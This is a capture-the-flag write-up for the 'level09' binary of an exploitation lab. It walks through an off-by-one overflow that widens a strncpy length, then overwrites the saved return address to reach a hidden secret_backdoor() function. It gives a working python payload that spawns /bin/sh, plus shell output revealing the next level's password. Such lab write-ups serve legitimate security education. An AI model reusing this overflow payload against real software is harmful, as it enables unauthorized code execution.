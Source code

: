 # Level09

Running this binary gives us a `username` and `message` prompts, both using `fgets()`.		
After disassembling we notice a `secret_backdoor()` function that will run any system command we provide but it is not part of he execution flow. 		
From this we can assume we will have to overwrite an `EIP` save and redirect to it.		

The strings received by the program for the username and message prompts are handled by `set_username()` and `set_msg()` functions respectively and are then stored inside the following structure:		
```c
typedef struct s_message
{
    char text[140];		// message destination
    char username[40];		// username destination
    int len;			// 140
} t_message;
```

Both functions use local buffers to store each result of `fgets()` before copying it into the main structure. 		
They use two different methods to make this copy:		
- `set_msg()` uses `strncpy()` and the `s_message->len` as size parameter. 
- `set_username()` copies the characters one by one from the local buffer to `s_message->username` using a loop and index.		

The copy loop in `set_username()` is repeated 41 times, this means we have a 1 byte overflow that allows us to overwrite the first (biggest) byte of `s_message->len`, and in turn change the size parameter for the `strncpy()` call in `set_msg()` to any value from 0 to 256.		

If the `EIP` save is less than 248 bytes after our `s_message->text` buffer (this binary is 64 bit so we need 8 bytes to write the address) we can exploit this 1 byte overflow to take control of the execution flow.		

The buffer starts in `rbp - 0xc0 (192)` and there is a single `push rbp` (8), this means the `EIP` save is at `buffer + (192 + 8)`. 		

All that is left is to get the address for `secret_backdoor()` and write our command:		
```bash
python -c "print 40 * 'a' + '\xd4' + '\n' + 'a' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1] + '\n/bin/sh'" > /tmp/inj09
level09@OverRide:~$ cat /tmp/inj09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
